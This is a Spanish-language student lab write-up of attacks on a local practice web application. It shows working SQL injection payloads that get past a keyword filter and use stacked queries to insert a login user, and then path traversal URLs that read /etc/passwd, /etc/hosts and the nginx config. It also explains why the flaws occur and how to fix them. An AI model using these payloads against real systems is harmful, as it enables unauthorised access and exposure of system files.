

La aplicación devuelve un error explícito de SQL (`SQLSTATE[42000]...`), confirmando la inyección. Pero el error revela algo más importante: el fragmento señalado como problemático es una cadena hexadecimal de 40 caracteres (`a94a8fe5ccb19ba61c4c0873d391e987982fbbd3`), que corresponde al hash SHA-1 del texto que escribí en Contraseña. Esto confirma que la aplicación no compara la contraseña en texto plano, sino que la hashea con SHA1 antes de construir la consulta, probablemente con una estructura similar a:

```sql
SELECT * FROM ??? WHERE usuario = '$usuario' AND contrasena = SHA1('$password')
```

Esto es justo lo que advierte el propio enunciado: el reto no consiste en descifrar ninguna contraseña, sino en inyectar en el campo `usuario` de forma que la condición de la consulta sea verdadera sin depender del resultado de ese hash.

#### Un filtro bloquea los operadores lógicos clásicos

Intento el método clásico de evasión con una condición siempre verdadera:

```
' OR '1'='1' --
```



La aplicación rechaza la entrada con el mensaje “Entrada no permitida en el campo usuario”, señal de que existe un filtro de validación explícito antes de construir la consulta (a diferencia de los ejercicios anteriores, donde no había ningún filtro de este tipo). Pruebo a aislar qué parte concreta dispara el bloqueo, eliminando progresivamente elementos: quito el comentario final, cambio `'1'='1'` por `1=1`, sustituyo `OR` por `AND`...


Todas estas variantes son rechazadas igualmente, lo que confirma que el filtro bloquea específicamente los operadores lógicos `OR` y `AND` cuando aparecen en la entrada del usuario.

Para confirmar que el filtro no es simplemente “cualquier comilla con texto detrás”, pruebo con una entrada sin ningún operador lógico, solo la comilla seguida de un carácter cualquiera:

```
atorresans' x
```



Esta entrada sí pasa el filtro, y el error de SQL resultante (`near 'x' AND contrasena = '...'`) me revela un dato clave: el nombre real de la columna de contraseña es **`contrasena`**, y confirma que el `AND` que aparece ahí pertenece a la propia consulta original de la aplicación, no a algo que yo haya escrito, por eso no lo bloquea el filtro, que solo vigila la entrada que yo introduzco.

Repito la prueba con `AND` escrito explícitamente por mí (`atorresans' AND '1'='1' --` ) y, como esperaba, también es bloqueado:


#### Evasión sin operadores lógicos: cerrar y comentar

Como no puedo usar `OR` ni `AND` en mi entrada, cambio de estrategia: en lugar de construir una condición alternativa, simplemente cierro la comilla abierta por la aplicación y comento todo lo que viene después (incluyendo la comprobación de `contrasena` que añade la propia aplicación), de forma que la consulta quede reducida a `WHERE usuario = 'atorresans'`.

Mi primer intento, con el comentario de doble guion, falla de nuevo:

```
atorresans' --
```



El error muestra que la comprobación de contraseña seguía activa (aparece de nuevo un hash SHA1, esta vez de la contraseña que probé). Esto se debe a que el comentario `--` en MySQL/MariaDB exige un espacio inmediatamente después para ser válido, y ese espacio final se pierde al enviar el formulario HTML. Sustituyo el comentario por una almohadilla (`#`), que no necesita ningún carácter adicional:

```
atorresans' #
```



Esta vez no hay error de sintaxis: la consulta se ejecuta correctamente ignorando la contraseña, pero no encuentra ningún usuario llamado literalmente “atorresans” en la tabla (lógico, ya que nunca me he dado de alta). Esto confirma que la inyección para evadir la contraseña funciona al 100%; el problema restante es que mi usuario no existe en la base de datos.

#### Confirmación de consultas apiladas (stacked queries)

El enunciado exige darme de alta mediante la propia inyección, lo que requiere ejecutar una sentencia `INSERT` adicional dentro de la misma petición, separada por `;` (stacked queries). Antes de intentarlo a ciegas, confirmo que el conector PHP permite ejecutar varias sentencias con una prueba inofensiva basada en tiempo:

```
atorresans'; SELECT SLEEP(5) #
```


La página tarda efectivamente unos 5 segundos en responder, confirmando que el `;` permite encadenar una segunda sentencia independiente.

#### Alta del usuario mediante INSERT y login exitoso

Recordando que en la extracción con SQLmap del Ejercicio 1 había localizado una tabla `usuarios` en la base de datos `logins`, con columnas `usuario` y `contrasena` (nombre que además coincide con el revelado por los errores de este mismo ejercicio), construyo la inyección final:

```
atorresans'; INSERT INTO logins.usuarios (usuario, contrasena) VALUES ('atorresans', SHA1('fake123')) #
```

Introduzco esto en el campo Usuario y cualquier valor en Contraseña, y pulso “Iniciar Sesión”:



El sistema confirma el login exitoso. Para verificar que el `INSERT` no fue solo un efecto puntual de esa consulta, sino que realmente creó un registro persistente en la base de datos, repito el acceso en un segundo intento completamente aparte, esta vez con mi usuario y la contraseña FAKE en texto plano, sin ninguna inyección:

- Usuario: `atorresans`
- Contraseña: `fake123`



El login se completa con éxito también de esta forma, confirmando de manera concluyente que el `INSERT` ejecutado mediante la inyección dio de alta un usuario real y persistente en la tabla `logins.usuarios`, con el que puedo autenticarme con normalidad a partir de ahora.

Descargo el fichero de log que proporciona la propia aplicación tras el login exitoso, y lo adjunto sin modificar junto con el resto de material de esta entrega.

#### ¿Por qué se produce esta vulnerabilidad?

La vulnerabilidad se produce porque la aplicación construye la consulta SQL concatenando directamente el valor introducido por el usuario en el campo `usuario`, sin utilizar consultas parametrizadas (prepared statements) ni separar en ningún momento el código SQL de los datos de entrada. Aunque la aplicación incorpora un filtro que bloquea palabras clave como `OR` y `AND`, este filtro actúa sobre una lista de patrones concretos (una lista negra), y no impide que el atacante cierre la comilla abierta por la aplicación, comente el resto de la consulta original, ni que encadene una segunda sentencia SQL completamente distinta mediante `;` (stacked queries). El problema de fondo es que el motor de base de datos interpreta como código cualquier carácter especial (comillas, punto y coma, comentarios) que llegue dentro de la entrada del usuario, en lugar de tratarlo siempre como un simple valor de texto.

#### Dos formas de evitar esta vulnerabilidad

1. **Uso de consultas parametrizadas (prepared statements)**: en lugar de concatenar el valor de `usuario` y `password` directamente en la cadena SQL, la aplicación debería usar marcadores de posición (`?` o `:nombre`) y pasar los valores como parámetros separados al motor de base de datos. De esta forma, el contenido introducido por el usuario nunca se interpreta como código SQL, independientemente de los caracteres especiales que contenga (comillas, `;`, `-`, etc.), eliminando la inyección de raíz.
2. **Validación y saneamiento estricto de la entrada (whitelist), junto con el principio de mínimo privilegio**: en lugar de una lista negra de palabras prohibidas (fácil de evadir, como hemos demostrado al rodear el bloqueo de `OR`/`AND`), definir qué caracteres están permitidos en el campo usuario (por ejemplo, solo letras, números y algún símbolo concreto como el guion bajo) y rechazar cualquier entrada que no cumpla ese patrón. De forma complementaria, el usuario de base de datos con el que se conecta la aplicación debería tener permisos mínimos (solo `SELECT` sobre la tabla de login), de modo que, aunque se lograra inyectar código SQL, no fuera posible ejecutar sentencias `INSERT` como la que ha permitido superar este reto.

#### Explotación de Path Traversal / LFI en “Notas Disponibles”

#### Identificación y confirmación del parámetro vulnerable

Como se mostró en el apartado anterior, la petición a “Notas Disponibles” incluye un segundo parámetro, `file=nota.php`, que sospechábamos que se usaba para incluir dinámicamente otro fichero PHP dentro de la página. Para confirmar esta vulnerabilidad de Path Traversal/LFI, intento escapar del directorio actual mediante secuencias `../` repetidas, apuntando a un fichero del sistema que sé que debería existir en cualquier Linux: `/etc/passwd`.

```
http://localhost:8000/notas.php?expediente=11111&file=../../../../etc/passwd
```

Si `notas.php` incluye el fichero indicado en `file` sin validar ni sanear la ruta (por ejemplo, con `include($_GET['file'])`), cada `../` le dice “sube un nivel de directorio”. Encadenando varios, salgo del directorio web (`/var/www/html`) y llego a la raíz `/`, desde donde ya puedo apuntar a cualquier ruta absoluta del sistema operativo.

El resultado es bastante denso: se muestra el contenido completo del fichero de usuarios y grupos del sistema.



Esto confirma la vulnerabilidad, y revela que el servidor corre bajo el usuario `www-data`, sin usuarios “humanos” con shell interactiva más allá de `root`.

#### Exploración de ficheros del sistema operativo

Sigo tirando del hilo con otros ficheros clásicos de reconocimiento:

```
http://localhost:8000/notas.php?expediente=11111&file=../../../../etc/hosts
```


Revela la IP interna del contenedor Docker (`172.17.0.2`) y su identificador (`fd765a41d4c7`).

```
http://localhost:8000/notas.php?expediente=11111&file=../../../../etc/os-release
```



Confirma que el sistema base es **Debian GNU/Linux 12 (bookworm)**.

Dado que las cabeceras HTTP ya nos habían revelado que el servidor web es **nginx**, voy a por su configuración:

```
http://localhost:8000/notas.php?expediente=11111&file=../../../../etc/nginx/nginx.conf
```

